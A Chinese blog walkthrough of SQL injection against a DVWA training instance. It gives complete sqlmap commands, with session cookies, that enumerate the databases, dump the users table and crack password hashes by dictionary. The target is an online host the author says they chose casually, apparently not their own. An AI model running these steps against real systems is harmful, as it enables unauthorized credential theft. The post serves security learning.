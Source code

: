 # 【渗透整理】DVWA SQL Injection  —等级：medium/high

接上一篇的《【渗透整理】SQL注入篇(1)》，这次我们还和上次一样网上随便找一个测试主机（测试用机不要太多）。这次的测试主机：106.54.82.231。游戏开始。

## 1、搜集信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226005041467.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)没有输入框了，使用一个可选的下拉框，可以知道一共有5个user，我随便点了4提交，F12查看网络，发现这次是用post方式提交，参数为id和submit，并且提交的时候使用了cookie。接下来我们开始构造语句，上sqlmap。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226010044181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226010058457.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

## 2、开始注入

Max HackBar 点开URL，发现url之前的不大一样，直接弄下来用，由于是POST提交，没有/?id 类似的参数，所以url不需要加参数，post的参数使用【–data “内容”】指定即可。

URL：
 http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f

post：
 id=3&Submit=Submit

网页导出的cookie：
 “PHPSESSID=ub0sdd4gv0615iea6gsv8d4134；security=medium；td_cookie=4193961465”

burp suite抓到的cookie：
 “td_cookie=4194069765; td_cookie=4193961465; security=medium; PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”

我看了一下，这里两种方式出来的cookie是不一样的，于是我专门去踩雷去了，发现两个cookie都可以直接跟在–cookie参数后面使用，但是burp抓的cookie访问的时候不会出现302问你要不要重定向，你可以一路yes到底结果就出来了，但是网页导出的cookie会出现302重定向提示（可能是一种防护手段），你如果告诉sqlmap是(y)的话，那么不管跑多久，最后都不会有结果的，但是如果你选了否(n)，那么恭喜你，我们殊途同归了。

**流程开始**

1、检测注入点：
 python2 sqlmap.py -u  “http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f” --cookie=“td_cookie=4194069765; td_cookie=4193961465; security=medium;  PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”  --data="id=3&Submit=Submit"![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226011717722.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)得到如下结果：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226011809771.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)说明存在注入点，可以进行下一步了

2、爆库：
 D:\sqlmap\sqlmap>python2 sqlmap.py -u  “http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f” --cookie=“td_cookie=4194069765; td_cookie=4193961465; security=medium;  PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”  --data=“id=3&Submit=Submit”  --dbs

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226011919343.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)结果如下：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226011947781.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)3、爆表：
 python2 sqlmap.py -u  “http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f” --cookie=“td_cookie=4194069765; td_cookie=4193961465; security=medium;  PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”  --data=“id=3&Submit=Submit”   --tables  -D“dvwa”
 得到如下：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226012031150.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)4、爆字段：
 python2 sqlmap.py -u  “http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f” --cookie=“td_cookie=4194069765; td_cookie=4193961465; security=medium;  PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”  --data=“id=3&Submit=Submit”   --columns  -D“dvwa” -T “users”
 得到如下：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226012131848.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)5、爆内容：
 python2 sqlmap.py -u  “http://106.54.82.231/DVWA/vulnerabilities/sqli/?http:%2f%2f106.54.82.231%2fDVWA%2fvulnerabilities%2fsqli%2f” --cookie=“td_cookie=4194069765; td_cookie=4193961465; security=medium;  PHPSESSID=ub0sdd4gv0615iea6gsv8d4134”  --data=“id=3&Submit=Submit”   --dump  -D“dvwa” -T “users” -C “,user_id,user,password”
 得到如下：
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226012220165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)这里其实已经爆出我们想要的内容了，但是密码是加密过的，我们想进一步处理的话请继续。

此时sqlmap回显：
 do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
 是否要将散列存储到临时文件中，以便最终使用其他工具进行进一步处理[y/N]y  【选y】

do you want to crack them via a dictionary-based attack? [Y/n/q] y
 你想通过基于字典的攻击来破解它们吗？[Y/n/q]y 【选y】

[1] default dictionary file ‘D:\sqlmap\sqlmap\txt\wordlist.zip’ (press Enter)
 [2] custom dictionary file
 [3] file with list of dictionary files
 [1] 默认字典文件’D:\ sqlmap\sqlmap\txt\wordlist.zip’（按回车键）
 [2] 自定义词典文件
 [3] 包含字典文件列表的文件
 【选1】

do you want to use common password suffixes? (slow!) [y/N] n
 是否要使用常用密码后缀？（慢！）[是/否] 【选N】

由于数据库的密码一般都是ND5加密后存储的，这里实验都是弱口令，所以sqlmap可以用自带的字典把密码明文给撞出来，之后在格式化输出，简直不要太爽。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191226012752570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

## 3、总结

踩雷burp和网页导出的cookie不一致，下次注意这个问题，还是burp一下心理放心。post型的注入用指定参数的方法完成，用法：–data  “提交的参数”。指定参数的方法并不是唯一的方式，其他的方式后面再试。cookie如果有多条的话用分号；隔开，顺序应该不影响结果。sqlmap自带MD5撞库功能，可以省不少事。
 还想说圣诞快乐的，写完都一点了。学习使人头秃。

by 久违 2019.12.25